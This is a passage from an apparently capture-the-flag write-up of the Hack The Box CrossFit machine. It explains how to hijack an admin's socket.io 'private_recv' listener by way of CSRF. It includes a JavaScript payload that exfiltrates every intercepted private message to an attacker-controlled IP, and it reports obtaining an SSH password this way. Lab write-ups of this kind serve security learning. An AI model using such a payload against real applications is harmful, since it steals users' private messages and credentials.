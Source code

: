 ![](screenshots/socket-private-recv.png)

If we hook `private_recv` listener of admin account to our server, we can read admin messages.

Using the same [CSRF account registration](#csrf-account-registration) technique to trick admin to execute a javascript that executes from admin browser and hook `private_recv` to our http server and intercept all traffic that come through `private_recv` listener.

*[from ippsec video](https://www.youtube.com/watch?v=OUjdPa11tGw&t=4770s)*
```php
<html>
<script src="http://crossfit-club.htb/socket.io/socket.io.js"></script>
<script>
var socket = io.connect('http://crossfit-club.htb');
socket.emit("user_join", { username : "admin" });

socket.on("private_recv", function(msg) {
	var req = new XMLHttpRequest();
	req.open("GET", "http://10.10.15.71/?" + btoa(JSON.stringify(msg)));
	req.send();
});
</script>
</html>
```

after some time, receive message with user "David" ssh passowrd

![](screenshots/ssh-password.png)
